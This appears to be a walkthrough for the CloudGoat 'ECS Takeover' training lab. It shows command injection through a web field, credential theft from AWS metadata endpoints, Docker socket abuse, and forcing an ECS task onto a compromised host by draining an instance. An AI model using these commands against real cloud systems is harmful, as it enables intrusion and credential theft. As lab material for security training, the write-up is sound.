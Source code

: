 # ECS Takeover

Starting with access to the external website the attacker needs to find a remote code execution vulnerability. Through this the attacker can take advantage of resources available to the container hosting the website. The attacker discovers that the container has access to the host's metadata service and role credentials. They also discover the Docker socket mounted in the container giving full unauthenticated access to Docker on one host in the cluster. Abusing the mount misconfiguration, the attacker can enumerate other running containers on the instance and compromise the container role of a semi-privileged privd container. Using the privd role the attacker can enumerate the nodes and running tasks across the ECS cluster where another task "vault" is discovered to be running on a second node. With the host container privileges gained earlier, the attacker modifies the state of the cluster and forces ECS to reschedule the container to the compromised host. This allows the attacker to access the flag stored in the root of the "vault" container instance through docker.

Goal: Gain access to the "vault" container and retrieve the flag.

Fix: If there are issues such as "Your query returned no results. Please change your search criteria and try again." Use the following to find the ami for ecs optimized: 
``` aws ssm get-parameters --names /aws/service/ecs/optimized-ami/amazon-linux-2/recommended --region us-east-1 ```
# Walkthrough
## Gain access to website and perform remote code executions
```
In a web browser open: http://ec2-3-91-89-195.compute-1.amazonaws.com found in start.txt. Replace ec2-3-91-89-195.compute-1.amazonaws.com with the ALB endpoint.

Get all running containers
; docker ps
We see a container with privd e.g ecs_takeover_cgidnxmo9tdsp8-privd-1-privd-c4b3b9efc8f1c5f92d00 and id 515fd111ffb4

Get the access keys, secret keys and token of the privd container by querying metadata service in the URL field
; docker exec 515fd111ffb4 sh -c 'wget -O- 169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI'

aws configure --profile ecs

We also need the host role
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/cg-ecs-takeover-ecs_takeover_cgidnxmo9tdsp8-ecs-agent

aws configure --profile host
```

## Use credentials and enumerate ECS cluster
```
aws configure --profile ecs

aws ecs list-clusters --profile ecs 
Get cluster arn arn:aws:ecs:us-east-1:<ACCOUNT ID>:cluster/ecs-takeover-ecs_takeover_cgidnxmo9tdsp8-cluster

For each task, find the one that is running valut
aws --profile ecs ecs describe-tasks --cluster <cluster arn> --tasks <task_arn>
aws --profile ecs ecs describe-services --cluster <cluster arn> --services <service name e.g. vault> 
This shows that the replica strategy is used which means that we can force it to run it on another container

```

## Drain the current task on vault so we can force it to run a container that we have control over
```
aws ecs list-container-instances --profile ecs --cluster arn:aws:ecs:us-east-1:<ACCOUNT ID>:cluster/ecs-takeover-ecs_takeover_cgidnxmo9tdsp8-cluster
Get the container instance of either


aws --profile ecs ecs update-container-instances-state --cluster ecs-takeover-ecs_takeover_cgidnxmo9tdsp8-cluster --container-instances ecs-takeover-ecs_takeover_cgidnxmo9tdsp8-cluster/b92e3ba48dee426eb0d56ef44f24878c --status DRAINING
```

## Get the final flag 
```
; docker exec <vault container id> ls
; docker exec <vault container id> cat FLAG.TXT
```
# References

https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/ecs_takeover/README.md